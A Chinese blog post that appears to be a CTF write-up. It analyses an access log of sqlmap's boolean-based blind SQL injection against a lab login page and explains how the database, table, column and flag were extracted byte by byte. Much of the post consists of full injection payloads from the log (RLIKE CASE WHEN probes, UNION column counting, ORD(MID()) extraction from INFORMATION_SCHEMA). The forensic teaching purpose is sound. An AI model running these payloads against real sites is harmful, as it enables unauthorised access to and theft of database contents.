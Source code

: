 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SQLmap盲注原理细分          # 标题 
subtitle:      #副标题
date:       2020-03-19             # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - SQL注入 
    
    - Misc
    
    
---
```


## 简介:
Sqlmap 是一个自动化的 SQL 注入工具，其主要功能是扫描、发现并利用给定的 Url 的 Sql 注入漏洞，目前支持 MySQL、 Oracle、 PostgreSQL、 Microsoft SQL Server、 Microsoft Access 等主流数据库。

**Sqlmap 使用 5 种 SQL 注入技术（不加参数默认测试所有注入技术）：**

基于布尔的盲注，即可以根据返回页面判断条件真假的注入。

基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。

基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。

联合查询注入，可以使用union的情况下的注入。

堆查询注入，可以同时执行多条语句的执行时的注入。


## 题目:

**仔细观察已受到攻击的服务器上的SQLmap盲注日志，逐字节分析得到flag**


## 考察点：
**SQLmap的盲注原理。此题是基于布尔判断的盲注。**


## 知识点：

SQLmap的盲注过程，与手工注入差不多，大概就是先判断是否为注入点，构造payload，然后再order by 判断列名个数，再用union 联合查询获得数据库名，再判断表名，在得到列名，最后得到具体数据。
## 解题过程：

**1.** 
下载access.log文件，用记事本打开观察会非常不方便，先在线url转码再可以把它复制到word里，使用全部替换，把union全部标上颜色，这样比较醒目，会看到sqlmap什么时候开始进行union查询。

**2.** 

```
192.168.247.129 - - [24/Dec/2017:08:21:19  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (2783=2783) THEN 0x61646d696e ELSE 0x28 END))-- pCIJ&password=b HTTP/1.1" 200 183 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:19  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (7215=9005) THEN 0x61646d696e ELSE 0x28 END))-- hctR&password=b HTTP/1.1" 200 182 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)" 

```

在此处注入成功.


```
192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' ORDER BY 1-- Hjkp&password=b HTTP/1.1" 200 215 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT NULL-- DOGW&password=b HTTP/1.1" 200 182 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT NULL,NULL-- TeAz&password=b HTTP/1.1" 200 182 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

```
此处是在通过order by 盲目的猜，有几个字段数，如果成功则返回是。

**3.**
```
192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT CONCAT(0x717a7a6271,0x6e796e634c66504a7163556e4c59757451546d79536b4e4d48535559764e6c686e55596966657377,0x7170767071),NULL,NULL-- sTlf&password=b HTTP/1.1" 200 227 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT NULL,CONCAT(0x717a7a6271,0x667165474b674f67557770626b4f476e575149536b6473496656616a446d494f65456b475a6d6468,0x7170767071),NULL-- Bnun&password=b HTTP/1.1" 200 227 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"
```
此处是在判断出字段数之后，判断回显点。

**4.** 通过逐个字节猜ascii判断数据库名，最后得到数据库名，0x77616c6177616c61，walawala。
```
1192.168.247.129 - - [24/Dec/2017:08:21:45  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS CHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1),9,1))>48) THEN 0x61646d696e ELSE 0x28 END))-- bAXi&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:45  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS CHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1),9,1))>1) THEN 0x61646d696e ELSE 0x28 END))-- bAXi&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"
```

**5.** 通过逐个字节猜ascii判断表名。最后得到表名，16进制转换为字符。fl4g。
```
192.168.247.129 - - [24/Dec/2017:08:21:49  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(table_name AS CHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x77616c6177616c61 LIMIT 1,1),5,1))>114) THEN 0x61646d696e ELSE 0x28 END))-- RcZY&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:49  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(table_name AS CHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x77616c6177616c61 LIMIT 1,1),5,1))>115) THEN 0x61646d696e ELSE 0x28 END))-- RcZY&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

```
**6.** 猜列名，通过逐字节比较猜每个列名的ascii，依次判断，最后确定为walawala.fl4g
```
192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(column_name AS CHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x666c3467 AND table_schema=0x77616c6177616c61 LIMIT 0,1),5,1))>48) THEN 0x61646d696e ELSE 0x28 END))-- IRsT&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"
```

**7.** 读出数据flag。例如：
```
192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>64) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"


192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>96) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>112) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>104) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>100) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>102) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>101) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

```

判断flag的第一个字符ascii是否大于64，由第二句可以得到显然大于，又接着判断是否大于96，依然大于，之后判断112，说明小于等于112，之后判断104，100，102，说明比100大，小于等于102，直到最后判断101，说明比101大，可以唯一确定第一个字符的ascii为102，每个字符都如此的比较。最后可以确认flag。







[参考链接（一）:mysql注入细节](https://blog.csdn.net/weixin_33698823/article/details/91963832)

[参考链接（二）:sqlmap基于时间盲注判断原理](https://blog.csdn.net/think_ycx/article/details/52083782)


## 谢谢您的查阅，欢迎来访！
